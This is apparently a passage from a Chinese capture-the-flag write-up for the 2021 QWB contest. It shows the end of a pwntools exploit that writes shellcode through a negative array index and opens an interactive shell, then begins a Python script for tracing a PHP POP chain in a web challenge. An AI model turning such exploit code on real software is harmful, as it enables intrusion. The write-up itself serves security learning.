 ```python
    sh.recv()
    sh.sendline('1')
    sh.recvuntil('index:')
    sh.sendline('-25')
    sh.recvuntil('size:')
    sh.sendline('')
    sh.recvuntil('content:')
    sh.sendline(asm(shellcode))
    gdb.attach(sh)
    sh.recv()
    sh.sendline('4')
    sh.recv()
    sh.sendline('1')
    sh.interactive()
pwn()

```

flag值：

![image (14)](2021qwb/image%20(14).png)

# **Web**

## pop_mater | SOLVED | Hn13

直接写脚本回溯POP链：

```python
def getmVar(i, method):
    pos = i.find(method + "(")
    return i[pos + 7:pos + 13]
def getmMeth(lines, method):
    mflag = 0
    mtmp = ""
    for i in lines:
        if method in i:
            '''if "public function " in i:
                print("get defination:" )
                print(i)
                break'''
            if "->" + method + "(" in i:
                print("get invocation in line " + str(mflag + 1) + ":")
                print(i)
                mVar = getmVar(i, method)
                tmflag = mflag
                while "public function " not in mtmp:
                    '''if mVar + " = " + mVar in mtmp:
                        s = ""
```